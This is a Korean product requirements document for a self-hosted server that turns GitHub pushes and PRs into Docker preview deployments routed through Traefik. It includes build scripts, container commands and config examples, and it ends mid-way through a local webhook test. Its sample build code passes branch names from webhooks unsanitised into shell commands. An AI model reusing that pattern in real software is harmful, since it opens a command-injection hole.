





# Deploy Server PRD

> **버전**: 0.3.0 (실험 단계)
> **최종 업데이트**: 2025-11-20
> **상태**: Planning/Experimental

브랜치별 자동 배포 및 PR 프리뷰 환경을 제공하는 자동화 서버입니다.

**핵심 목표**: GitHub Push/PR → 자동 빌드 → Docker 배포 → 서브도메인 라우팅

---

## 목차

- [1. 비전 및 배경](#1-비전-및-배경)
- [2. 개요](#2-개요)
- [3. 기술 스택](#3-기술-스택)
- [4. 시스템 요구사항](#4-시스템-요구사항)
- [5. 주요 기능](#5-주요-기능)
- [6. 시스템 아키텍처](#6-시스템-아키텍처)
- [7. 환경 변수](#7-환경-변수)
- [8. 빠른 시작](#8-빠른-시작)
- [9. 배포 플로우](#9-배포-플로우)
- [10. API 엔드포인트](#10-api-엔드포인트)
- [11. 로컬 개발 환경 설정](#11-로컬-개발-환경-설정)
- [12. 보안 고려사항](#12-보안-고려사항)
- [13. 성능 목표](#13-성능-목표)
- [14. 예시 시나리오](#14-예시-시나리오)
- [15. 디렉토리 구조](#15-디렉토리-구조)
- [16. 캐싱 전략](#16-캐싱-전략)
- [17. 정리 정책](#17-정리-정책)
- [18. 모니터링](#18-모니터링)
- [19. 빌드 환경 표준화](#19-빌드-환경-표준화)
- [20. 에러 핸들링 및 재시도 정책](#20-에러-핸들링-및-재시도-정책)
- [21. 트러블슈팅](#21-트러블슈팅)
- [22. 제한사항 및 알려진 이슈](#22-제한사항-및-알려진-이슈)
- [23. 구현 우선순위](#23-구현-우선순위)
- [24. 성공 지표](#24-성공-지표)
- [25. 참고 자료](#25-참고-자료)
- [26. 변경 이력](#26-변경-이력)

---

## 1. 비전 및 배경

### 1.1 왜 Deploy Server를 만드는가?

현대적인 개발 워크플로우에서는 코드 리뷰와 QA를 위해 각 브랜치/PR마다 독립적인 프리뷰 환경이 필요합니다. Vercel, Netlify 같은 서비스가 이를 제공하지만, 다음과 같은 한계가 있습니다:

- **비용**: 팀 규모가 커질수록 비용 증가
- **제어**: 빌드 환경과 배포 프로세스에 대한 제한된 제어
- **학습**: 자동화 파이프라인 구축 경험 부족
- **프라이버시**: 민감한 코드를 외부 서비스에 배포하는 것에 대한 우려

### 1.2 핵심 가치

Deploy Server는 다음을 목표로 합니다:

1. **자동화된 프리뷰 환경**: 모든 브랜치/PR에 대한 자동 배포
2. **비용 효율성**: 자체 인프라에서 운영
3. **학습 경험**: CI/CD, Docker, 웹훅 처리, 리버스 프록시 등 실전 경험
4. **확장성**: 향후 여러 프로젝트에 적용 가능한 범용 솔루션
5. **완전한 제어**: 빌드 환경, 배포 프로세스, 인프라 구성의 완전한 커스터마이징

### 1.3 사용자 경험 목표

- **개발자**: 코드 푸시 후 3분 이내 프리뷰 URL 확인
- **리뷰어**: PR에서 실제 동작하는 애플리케이션 테스트
- **QA**: 각 기능 브랜치별 독립적인 테스트 환경

---

## 2. 개요

### 2.1 목적

GitHub에 브랜치를 푸시하면 자동으로 빌드/배포되어 브랜치별 미리보기 환경을 제공하는 시스템

### 2.2 핵심 목표

- ✅ 개발자가 PR을 생성하면 자동으로 프리뷰 환경 생성
- ✅ 브랜치명 기반 서브도메인 자동 생성 (예: `feature-login.devom.dev`)
- ✅ Docker 컨테이너 기반 격리된 실행 환경
- ✅ GitHub 웹훅을 통한 실시간 배포
- ✅ PR 종료 시 자동으로 배포 환경 정리

### 2.3 현재 상태

- ✅ Fastify 기반 웹훅 서버 구축
- ✅ `/webhook` 엔드포인트 생성
- ⏳ 웹훅 검증, 빌드, Docker 배포 미구현

---

## 3. 기술 스택

### 3.1 백엔드

| 기술           | 버전 | 용도                          |
| -------------- | ---- | ----------------------------- |
| **Node.js**    | 20+  | 런타임 환경                   |
| **Fastify**    | 5.x  | 웹 프레임워크 (웹훅 서버)     |
| **TypeScript** | 5.x  | 타입 안전성                   |
| **pnpm**       | 10.x | 패키지 관리 및 빌드 도구      |
| **simple-git** | 3.x  | Git 클라이언트 (Node.js API)  |
| **p-queue**    | 8.x  | 비동기 작업 큐 관리 (빌드 큐) |
| **winston**    | 3.x  | 구조화된 로깅                 |
| **dockerode**  | 4.x  | Docker API 클라이언트         |

### 3.2 인프라

| 기술               | 버전 | 용도                               |
| ------------------ | ---- | ---------------------------------- |
| **Docker**         | 27+  | 컨테이너 런타임                    |
| **docker-compose** | 2.x  | 멀티 컨테이너 관리                 |
| **Traefik**        | 3.x  | 리버스 프록시 및 서브도메인 라우팅 |
| **Git**            | 2.x  | 소스 코드 관리                     |

### 3.3 데이터베이스 (선택)

| 기술          | 용도                             |
| ------------- | -------------------------------- |
| **SQLite**    | 배포 상태 저장 (경량, 파일 기반) |
| **JSON 파일** | 초기 MVP용 간단한 상태 저장      |

### 3.4 프로세스 관리

| 기술        | 용도                            |
| ----------- | ------------------------------- |
| **PM2**     | Node.js 프로세스 관리 및 재시작 |
| **systemd** | 시스템 서비스 등록 (프로덕션)   |

---

## 4. 시스템 요구사항

### 4.1 개발 환경

- **OS**: macOS, Linux, WSL2
- **Node.js**: 20.x 이상 (LTS)
- **pnpm**: 10.10.0 이상
- **Docker**: 27.x 이상
- **Git**: 2.x 이상
- **GitHub 계정**: 레포지토리 접근 권한 및 웹훅 설정 권한

### 4.2 프로덕션 환경

- **OS**: Ubuntu 22.04 LTS (권장)
- **CPU**: 2 cores 이상
- **RAM**: 4GB 이상 (8GB 권장)
- **Storage**: 50GB+ (빌드 캐시 + 컨테이너 이미지)
- **Network**:
  - 공인 IP 주소
  - 도메인 (와일드카드 DNS 설정 필요: `*.devom.dev`)
  - 포트 개방: 80 (HTTP), 443 (HTTPS), 3000 (웹훅 서버)

### 4.3 네트워크 요구사항

- **도메인**: 와일드카드 서브도메인 지원 (예: `*.app.com`)
- **DNS**: A 레코드 또는 CNAME 설정
- **SSL**: Let's Encrypt 자동 인증서 발급 (Traefik 통해)
- **방화벽**: GitHub Webhook IP 범위 허용

---

## 5. 주요 기능

### 5.1 GitHub 웹훅 수신 및 검증

**우선순위: P0 (필수)**

#### 요구사항

- ✅ GitHub Push 이벤트 수신
- ✅ Pull Request 이벤트 수신 (생성, 업데이트, 종료)
- ✅ HMAC SHA256 서명 검증으로 보안 강화
- ✅ 브랜치 필터링 (특정 브랜치만 배포)
- ✅ 중복 웹훅 방지 (`X-GitHub-Delivery` ID 추적)

#### 기술 스펙

**Endpoint**: `POST /webhook`

**Headers**:

- `X-Hub-Signature-256`: HMAC SHA256 서명
- `X-GitHub-Event`: 이벤트 타입 (`push`, `pull_request`)
- `X-GitHub-Delivery`: 고유 웹훅 ID (중복 방지)

**Body**: GitHub Webhook Payload

```typescript
interface PushWebhookPayload {
  ref: string // refs/heads/feature/login
  after: string // commit SHA
  repository: {
    clone_url: string
    full_name: string
    ssh_url: string
  }
  pusher: {
    name: string
    email: string
  }
}

interface PullRequestWebhookPayload {
  action: "opened" | "synchronize" | "closed"
  number: number
  pull_request: {
    head: {
      ref: string // 브랜치명
      sha: string
    }
  }
  repository: {
    clone_url: string
    ssh_url: string
  }
}
```

#### 브랜치 필터링 규칙

환경 변수 `ALLOWED_BRANCH_REGEX`로 제어:

```bash
# 예시: feature, fix, main 브랜치만 허용
ALLOWED_BRANCH_REGEX=^(feature|fix|hotfix|main)\/.*$
```

---

### 5.2 자동 브랜치 배포

**우선순위: P0 (필수)**

#### 요구사항

- ✅ Push 이벤트로 브랜치 자동 배포
- ✅ 브랜치명 기반 서브도메인 생성 (`feature-login.app.com`)
- ✅ 동일 브랜치 재푸시 시 기존 배포 환경 업데이트
- ✅ 빌드 성공/실패 상태 추적

#### 플로우



---

### 5.3 PR 프리뷰 환경

**우선순위: P0 (필수)**

#### 요구사항

- ✅ PR 생성 시 자동으로 프리뷰 환경 생성
- ✅ PR 업데이트 시 프리뷰 환경 재배포
- ✅ PR 종료 시 프리뷰 환경 자동 삭제
- ✅ PR에 프리뷰 URL 코멘트 자동 추가 (선택)

#### 서브도메인 규칙

| 이벤트       | 서브도메인              | 예시                    |
| ------------ | ----------------------- | ----------------------- |
| PR #123 생성 | `pr-{number}.app.com`   | `pr-123.app.com`        |
| 브랜치 푸시  | `{branch-name}.app.com` | `feature-login.app.com` |
| Main 브랜치  | `app.com` (루트 도메인) | `devom.dev`             |

#### PR 종료 시 정리

```typescript
// PR closed 이벤트 수신 시
if (payload.action === "closed") {
  const prNumber = payload.number

  // 1. 컨테이너 중지 및 삭제
  await docker.stopContainer(`preview-pr-${prNumber}`)
  await docker.removeContainer(`preview-pr-${prNumber}`)

  // 2. 이미지 삭제
  await docker.removeImage(`pr-${prNumber}:latest`)

  // 3. 빌드 디렉토리 정리
  await fs.rm(`${WORK_DIR}/pr-${prNumber}`, { recursive: true })
}
```

---

### 5.4 코드 Clone & Build

**우선순위: P0 (필수)**

#### 요구사항

- ✅ Git 저장소를 임시 디렉토리에 Clone
- ✅ 브랜치명 파싱 및 정규화 (`feature/login` → `feature-login`)
- ✅ pnpm을 사용한 빌드 실행
- ✅ 빌드 산출물 확인 및 보관
- ✅ 빌드 로그 저장 (성공/실패 모두)
- ✅ 빌드 타임아웃 설정 (기본 10분)

#### 빌드 플로우

```bash
# 1. 작업 디렉토리 생성
mkdir -p $WORK_DIR/feature-login

# 2. Git clone (shallow clone으로 속도 향상)
git clone --depth 1 --branch feature/login $REPO_SSH_URL $WORK_DIR/feature-login

# 3. 빌드 실행
cd $WORK_DIR/feature-login
pnpm install --frozen-lockfile
pnpm build

# 4. 빌드 결과 확인
if [ -d "dist" ] || [ -d ".next" ]; then
  echo "Build success"
else
  echo "Build failed: no output directory"
  exit 1
fi
```

#### 환경 변수

```env
REPO_SSH_URL=git@github.com:dabom/devom.git
WORK_DIR=/srv/deploy/workspace
BUILD_TIMEOUT=600000  # 10분 (밀리초)
```

---

### 5.5 Docker 컨테이너 배포

**우선순위: P0 (필수)**

#### 요구사항

- ✅ Nginx 기반 정적 파일 서빙 (React, Next.js 등)
- ✅ 브랜치별 격리된 컨테이너
- ✅ 자동 포트 할당 또는 Traefik 라벨 사용
- ✅ 컨테이너 헬스 체크
- ✅ 리소스 제한 (CPU, 메모리)

#### Dockerfile 템플릿

```dockerfile
# templates/nginx.Dockerfile
FROM nginx:alpine

# 빌드 결과물 복사
COPY ./dist /usr/share/nginx/html

# Nginx 설정 (SPA 라우팅 지원)
COPY ./nginx.conf /etc/nginx/conf.d/default.conf

EXPOSE 80

HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD wget --quiet --tries=1 --spider http://localhost/ || exit 1

CMD ["nginx", "-g", "daemon off;"]
```

#### 컨테이너 실행

```bash
# 이미지 빌드
docker build -t feature-login:a1b2c3d -f templates/nginx.Dockerfile .

# 기존 컨테이너 중지 및 제거
docker stop feature-login 2>/dev/null || true
docker rm feature-login 2>/dev/null || true

# 새 컨테이너 실행
docker run -d \
  --name feature-login \
  --restart unless-stopped \
  --memory="512m" \
  --cpus="0.5" \
  --label "traefik.enable=true" \
  --label "traefik.http.routers.feature-login.rule=Host(\`feature-login.app.com\`)" \
  --label "traefik.http.routers.feature-login.entrypoints=websecure" \
  --label "traefik.http.routers.feature-login.tls=true" \
  --label "traefik.http.routers.feature-login.tls.certresolver=letsencrypt" \
  --label "traefik.http.services.feature-login.loadbalancer.server.port=80" \
  feature-login:a1b2c3d
```

---

### 5.6 서브도메인 자동 라우팅

**우선순위: P1 (중요)**

#### 요구사항

- ✅ Traefik를 사용한 동적 라우팅
- ✅ 브랜치명 → 서브도메인 매핑
- ✅ SSL 인증서 자동 발급 (Let's Encrypt)
- ✅ HTTP → HTTPS 자동 리다이렉트

#### Traefik 설정

**docker-compose.yml**:

```yaml
version: "3.8"

services:
  traefik:
    image: traefik:v3.0
    container_name: traefik
    restart: unless-stopped
    ports:
      - "80:80"
      - "443:443"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock:ro
      - ./traefik/acme.json:/acme.json
    command:
      - "--api.dashboard=true"
      - "--providers.docker=true"
      - "--providers.docker.exposedbydefault=false"
      - "--entrypoints.web.address=:80"
      - "--entrypoints.websecure.address=:443"
      - "--certificatesresolvers.letsencrypt.acme.email=admin@devom.dev"
      - "--certificatesresolvers.letsencrypt.acme.storage=/acme.json"
      - "--certificatesresolvers.letsencrypt.acme.httpchallenge.entrypoint=web"
    labels:
      - "traefik.enable=true"
      - "traefik.http.routers.dashboard.rule=Host(`traefik.app.com`)"
      - "traefik.http.routers.dashboard.service=api@internal"
```

#### 컨테이너 라벨 자동 생성

```typescript
function generateTraefikLabels(branchName: string, domain: string) {
  const subdomain = branchName === "main" ? domain : `${branchName}.${domain}`

  return {
    "traefik.enable": "true",
    [`traefik.http.routers.${branchName}.rule`]: `Host(\`${subdomain}\`)`,
    [`traefik.http.routers.${branchName}.entrypoints`]: "websecure",
    [`traefik.http.routers.${branchName}.tls`]: "true",
    [`traefik.http.routers.${branchName}.tls.certresolver`]: "letsencrypt",
    [`traefik.http.services.${branchName}.loadbalancer.server.port`]: "80",
  }
}
```

---

### 5.7 배포 상태 관리

**우선순위: P2 (선택)**

#### 요구사항

- ✅ 배포 히스토리 저장 (SQLite 또는 JSON 파일)
- ✅ 배포 상태 조회 API
- ✅ 실패 시 Slack/Discord 알림 (선택)
- ✅ GitHub Status API 연동 (PR에 배포 상태 표시)

#### 데이터 모델

```typescript
interface Deployment {
  id: string // UUID
  branch: string // feature/login
  normalizedBranch: string // feature-login
  commit: string // SHA
  prNumber?: number // PR 번호 (PR인 경우)
  status: "pending" | "building" | "success" | "failed"
  url?: string // https://feature-login.devom.dev
  buildLog?: string // 빌드 로그 경로
  createdAt: Date
  updatedAt: Date
  duration?: number // 빌드 소요 시간 (밀리초)
}
```

---

## 6. 시스템 아키텍처

### 6.1 전체 플로우 다이어그램



### 6.2 컴포넌트 다이어그램



### 6.3 빌드 큐 아키텍처

#### 큐 구현 방식

**Phase 1 (MVP)**: 인메모리 큐 (`p-queue`)

```typescript
import PQueue from "p-queue"

// 빌드 큐 설정
const buildQueue = new PQueue({
  concurrency: parseInt(process.env.MAX_CONCURRENT_BUILDS || "3"),
  timeout: parseInt(process.env.BUILD_TIMEOUT || "600000"), // 10분
})

// 빌드 작업 추가
buildQueue.add(async () => {
  await buildProject(branch, commit)
})

// 큐 상태 모니터링
console.log(`Queue size: ${buildQueue.size}, Pending: ${buildQueue.pending}`)
```

**장점**:

- 간단한 구현
- 외부 의존성 없음
- MVP에 적합

**단점**:

- 서버 재시작 시 큐 손실
- 멀티 서버 확장 불가능

**Phase 3 (프로덕션)**: Redis 기반 큐 (`BullMQ`)

```typescript
import { Queue, Worker } from "bullmq"

const buildQueue = new Queue("builds", {
  connection: {
    host: process.env.REDIS_HOST,
    port: parseInt(process.env.REDIS_PORT || "6379"),
  },
})

// 워커 정의
const worker = new Worker(
  "builds",
  async (job) => {
    const { branch, commit } = job.data
    await buildProject(branch, commit)
  },
  {
    connection: { host: process.env.REDIS_HOST, port: 6379 },
    concurrency: 3,
  }
)
```

**장점**:

- 영속성 (서버 재시작 후에도 큐 유지)
- 멀티 서버 확장 가능
- 재시도 정책 내장
- 우선순위 큐 지원

---

#### 빌드 워커 격리 전략

**옵션 1: 메인 프로세스 내 실행 (Phase 1)**

```typescript
// src/build/worker.ts
async function buildProject(branch: string, commit: string) {
  const workDir = path.join(WORK_DIR, branch)

  // Git clone
  await execAsync(`git clone --depth 1 ${REPO_SSH_URL} ${workDir}`)

  // Build
  await execAsync(`cd ${workDir} && pnpm install && pnpm build`)
}
```

**장점**: 간단한 구현
**단점**: 메인 프로세스 블로킹, 보안 위험

---

**옵션 2: 별도 Docker 컨테이너에서 빌드 (Phase 2, 권장)**

```typescript
// Ephemeral Build Container
async function buildInContainer(branch: string, commit: string) {
  const containerName = `build-${branch}-${Date.now()}`

  // 빌드 전용 컨테이너 실행
  await docker.run(
    "node:20-alpine",
    [
      "sh",
      "-c",
      `git clone --depth 1 -b ${branch} ${REPO_SSH_URL} /workspace && \
     cd /workspace && \
     pnpm install --frozen-lockfile && \
     pnpm build`,
    ],
    process.stdout,
    {
      name: containerName,
      Volumes: {
        "/workspace": {},
        "/cache/pnpm": {},
      },
      HostConfig: {
        Binds: [`${CACHE_DIR}/pnpm:/cache/pnpm`],
        Memory: 2 * 1024 * 1024 * 1024, // 2GB
        CpuQuota: 100000, // 1 CPU
      },
      AutoRemove: true, // 빌드 완료 후 자동 삭제
    }
  )

  // 빌드 결과물 복사
  await docker.copyFromContainer(containerName, "/workspace/dist", outputPath)
}
```

**장점**:

- ✅ 호스트 시스템 격리 (보안)
- ✅ 리소스 제한 (CPU, 메모리)
- ✅ 일관된 빌드 환경
- ✅ 자동 정리 (AutoRemove)

**단점**: Docker-in-Docker 설정 필요

---

#### 동시 빌드 제한 및 우선순위

```typescript
// 우선순위 정의
enum BuildPriority {
  MAIN_BRANCH = 1, // 최고 우선순위
  PR_UPDATE = 2, // PR 업데이트
  BRANCH_PUSH = 3, // 일반 브랜치 푸시
}

// 우선순위 큐에 추가
buildQueue.add(() => buildProject(branch, commit), { priority: getBuildPriority(branch) })

function getBuildPriority(branch: string): number {
  if (branch === process.env.DEFAULT_BRANCH) return BuildPriority.MAIN_BRANCH
  if (branch.startsWith("pr-")) return BuildPriority.PR_UPDATE
  return BuildPriority.BRANCH_PUSH
}
```

---

### 6.4 디렉토리 레이아웃

```
/srv/deploy-server/
├── workspace/               # 빌드 작업 디렉토리
│   ├── feature-login/      # 브랜치별 빌드 디렉토리
│   │   ├── .git/
│   │   ├── dist/           # 빌드 결과물
│   │   └── node_modules/
│   └── pr-123/
├── logs/                   # 빌드 로그
│   ├── feature-login/
│   │   └── a1b2c3d.log
│   └── pr-123/
├── cache/                  # 캐시 디렉토리
│   └── pnpm-store/         # pnpm 공유 스토어
└── state/                  # 배포 상태 저장
    └── deployments.db      # SQLite DB
```

---

## 7. 환경 변수

`.env` 파일을 생성하여 다음 변수를 설정하세요:

### 7.1 필수 환경 변수

```bash
# GitHub Webhook 보안
GITHUB_WEBHOOK_SECRET=your-webhook-secret-here
# 웹훅 설정 시 동일한 값을 GitHub에 입력

# 레포지토리 정보
REPO_SSH_URL=git@github.com:dabom/devom.git
# SSH URL 사용 (권장) 또는 HTTPS URL

# 작업 디렉토리
WORK_DIR=/srv/deploy/workspace
# 빌드 작업이 수행될 디렉토리 (절대 경로)

# 도메인 설정
BASE_DOMAIN=devom.dev
# 서브도메인 생성에 사용될 기본 도메인

# 기본 브랜치
DEFAULT_BRANCH=main
# 메인 브랜치명 (main 또는 master)
```

### 7.2 선택적 환경 변수

```bash
# 브랜치 필터링
ALLOWED_BRANCH_REGEX=^(feature|fix|hotfix|main)\/.*$
# 허용할 브랜치 패턴 (정규표현식)

# GitHub API
GITHUB_TOKEN=ghp_xxxxxxxxxxxxx
# PR 코멘트 작성, Status API 업데이트용
# Scope: repo, write:repo_hook

# Docker 레지스트리
REGISTRY=registry.local:5000
# 비어있으면 로컬 이미지 사용
# 프라이빗 레지스트리 사용 시 설정

# Docker 네트워크
DOCKER_NETWORK_NAME=deploy-network
# Traefik과 배포 컨테이너가 통신할 Docker 네트워크 이름

# 서버 포트
PORT=3000
# Webhook 서버가 리스닝할 포트

# 빌드 설정
BUILD_TIMEOUT=600000
# 빌드 타임아웃 (밀리초, 기본 10분)

MAX_CONCURRENT_BUILDS=3
# 동시에 실행 가능한 최대 빌드 수

# 캐시 설정
CACHE_DIR=/srv/deploy/cache
# 캐시 디렉토리 (pnpm store 등)

# 로그 설정
LOG_LEVEL=info
# 로그 레벨: debug, info, warn, error

LOG_DIR=/srv/deploy/logs
# 로그 파일 저장 디렉토리

# 알림 설정
SLACK_WEBHOOK_URL=https://hooks.slack.com/services/xxx
# 빌드 실패/성공 알림용 Slack Webhook

DISCORD_WEBHOOK_URL=https://discord.com/api/webhooks/xxx
# Discord 알림용
```

### 7.3 환경 변수 예시 파일

`.env.example`:

```bash
# GitHub Webhook
GITHUB_WEBHOOK_SECRET=generate-random-secret-here
GITHUB_TOKEN=

# Repository
REPO_SSH_URL=git@github.com:your-org/your-repo.git

# Paths
WORK_DIR=/srv/deploy/workspace
CACHE_DIR=/srv/deploy/cache
LOG_DIR=/srv/deploy/logs

# Domain
BASE_DOMAIN=devom.dev
DEFAULT_BRANCH=main

# Filtering
ALLOWED_BRANCH_REGEX=^(feature|fix|hotfix|main)\/.*$

# Server
PORT=3000
BUILD_TIMEOUT=600000
MAX_CONCURRENT_BUILDS=3

# Docker (optional)
REGISTRY=
DOCKER_NETWORK_NAME=deploy-network

# Notifications (optional)
SLACK_WEBHOOK_URL=
DISCORD_WEBHOOK_URL=
```

---

## 8. 빠른 시작

### 8.1 설치

```bash
# 1. 레포지토리 클론
git clone git@github.com:dabom/devom.git
cd devom/deploy-server

# 2. 의존성 설치
pnpm install

# 3. 환경 변수 설정
cp .env.example .env
# .env 파일을 편집하여 필수 변수 설정
```

### 8.2 로컬 개발 서버 실행

```bash
# 개발 모드 (핫 리로드)
pnpm dev

# 또는 빌드 후 실행
pnpm build
pnpm start
```

### 8.3 GitHub Webhook 설정

1. GitHub 레포지토리 → **Settings** → **Webhooks** → **Add webhook**
2. 다음 정보 입력:
   - **Payload URL**: `https://your-server.com/webhook`
   - **Content type**: `application/json`
   - **Secret**: `.env`의 `GITHUB_WEBHOOK_SECRET` 값
   - **Events**: `push`, `pull_request` 선택
3. **Add webhook** 클릭

### 8.4 Traefik 실행

```bash
# docker-compose로 Traefik 실행
cd deploy-server
docker-compose up -d traefik

# 로그 확인
docker logs -f traefik
```

### 8.5 로컬 테스트

#### Webhook 시뮬레이션

```bash
# test/fixtures/push-event.json 파일 준비
curl -X POST http://localhost:3000/webhook \
  -H "Content-Type: application/json" \
  -H "X-Hub-Signature-256: sha256=..." \
  -H "X-GitHub-Event: push" \
  -H "X-GitHub-Delivery: 12345678-1234-1234-1234-123456789012" \
